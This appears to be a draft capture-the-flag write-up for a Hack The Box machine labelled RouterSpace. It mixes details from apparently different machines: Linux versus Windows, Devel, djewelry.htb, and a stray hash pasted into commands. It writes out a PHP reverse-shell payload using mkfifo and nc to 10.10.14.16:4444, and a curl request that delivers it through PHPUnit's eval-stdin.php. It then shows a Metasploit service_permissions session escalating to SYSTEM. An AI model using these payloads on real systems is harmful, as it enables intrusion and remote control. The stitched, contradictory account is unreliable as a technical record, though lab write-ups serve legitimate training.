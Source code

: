 ```yaml
---
layout: post
title: Hack The Box - RouterSpace
categories:
  - hackthebox
slug: htb-routerpsace
tags:
  - windows
---
```

## Challenge description

[https://app.hackthebox.com/machines/Devel](https://app.hackthebox.com/machines/RouterSpace)

This VM is a medium Linux machine

## Reconnaissance / Enumeration

### Port scanning and service identification

```
$ rustscan -a $ip -r 1-65535 --ulimit 5000 -- -A -sC
[...]


```

### Web Enumeration

Exposed vendor folder

search each modules for exploit

php unit, rce

rcepoc.png

## Exploitation && Foothold

<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.16 4444 >/tmp/f'); ?>

curl -X POST http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php -d "<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.16 4444 >/tmp/f'); ?>"

Foothold as www-data

## Lateral Movement

Must move to steven

## Privilege Escalation

There are 2 services vulnerable to a registry edit attack. Dnscache and RpcEptMapper. There is a way to create a performance counter pointing to a malicious DLL.

The exploit is well described [here](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)

There's a metasploit module that we can use to exploit the service: exploit/windows/local/service_permissions

```
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/service_permissions
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/service_permissions) > set session 1
session => 1
msf6 exploit(windows/local/service_permissions) > set lhost tun0
lhost => tun0
msf6 exploit(windows/local/service_permissions) > run

[*] Started reverse TCP handler on 1.1.1.1:4444
[*] Trying to add a new service...
[*] Trying to find weak permissions in existing services..
[+] [Dnscache] Created registry key: HKLM\System\CurrentControlSet\Services\Dnscache\Performance
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 4 opened (1.1.1.1:4444 -> 10.10.10.5:49271 ) at 2022-01-19 02:02:05 +0000

meterpreter > shell
Process 728 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
e69af0e4f443de7e36876fda4ec7644f
C:\Windows\system32>whoami
whoami
nt authority\system

c:\Users\babis\Desktop>more user.txt.txt
more user.txt.txt
(redacted)

C:\Windows\system32>more e69af0e4f443de7e36876fda4ec7644fc:\users\administrator\desktop\root.txt
more c:\users\administrator\desktop\root.txt
(redacted)
```

Thanks for reading <3

h3x
